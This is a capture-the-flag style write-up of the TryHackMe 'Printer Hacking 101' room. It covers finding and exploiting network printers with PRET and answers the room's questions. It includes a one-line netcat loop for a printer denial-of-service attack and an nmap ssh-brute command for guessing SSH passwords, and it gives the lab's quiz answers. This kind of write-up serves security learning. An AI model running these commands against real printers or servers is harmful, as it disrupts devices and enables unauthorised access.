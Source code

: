 # Printer Hacking 101

**Date:** 13, December, 2020

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/printerhacking101) to go to the TryHackMe room.

## Learning Objectives
- CUPS Server (Common UNIX Printing System)
- IPP (Internet Printing Protocol)
- [PRET - Printer Exploitation](https://github.com/RUB-NDS/PRET)
- [Printer Security Testing Cheat Sheet](http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet)

### Targeting and Exploiting
- Locating Printers
    - `python pret.py`
    - `nmap -p 631 <IP_RANGE>`
- Exploiting
    - Three options in PRET:
        - PS (PostScript)
        - PJL (Printer Job Language)
        - PCL (Printer Command Language)
    - Try out all the three languages, to check if the language will be understood by the printer
        ```bash
        python pret.py laserjet.lan ps
        python pret.py {IP} pjl
        python pret.py /dev/usb/lp0 pcl    
        ```
    - Once you get a shell-like output, type `help` to see the different commands available.
    
---
## Solutions
### What port does IPP run on?
- **Answer:** 631
- **Impact** 
    - An open IPP port can expose a lot of sensitive information such as *printer name, location, model, firmware version, or even printer wifi SSID.*

---

### How would a simple printer TCP DoS attack look as a one-line command?
- **Answer:** `while true; do nc printer 9100; done`
- **Explanation:** 
    - Replace `printer` with `<PRINTER_IP>`
    - Since it is an infinite loop, the printer will remain busy.

---

### Review the cheat sheet provided in the task reading above. What attack are printers often vulnerable to which involves sending more and more information until a pre-allocated buffer size is surpassed?
- **Answer:** Buffer Overflow

---

### Brute forcing SSH password
- [Null Byte Article](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)
- Use any of the following
    1. Metasploit
    2. Hydra
    3. Nmap

- Using nmap:
    - `nmap <MACHINE_IP> -p 22 --script ssh-brute --script-arg userdb=user.txt`
    - Since we know the username, `user.txt` must contain only `printer`

---

### Connect to the printer per the instructions above. Where's the Fox_Printer located?
- **Answer:** Skidy's basement
- **Steps to Reproduce:** Visit `http://<MACHINE_IP>:631/printers/`

![Image](Images/PrinterHacking101-1.png) 

---

### What is the size of a test sheet?
- **Answer:** 1k
- **Steps to Reproduce:**
    - Visit `http://<MACHINE_IP>:631/printers/Fox_Printer`
    - Select `Print Test Page` option from the Drop-down box.
    - The jobs will be listed at the bottom of the page.
    - Check the `size` column in that table.

![Image](Images/PrinterHacking101-2.png)     

---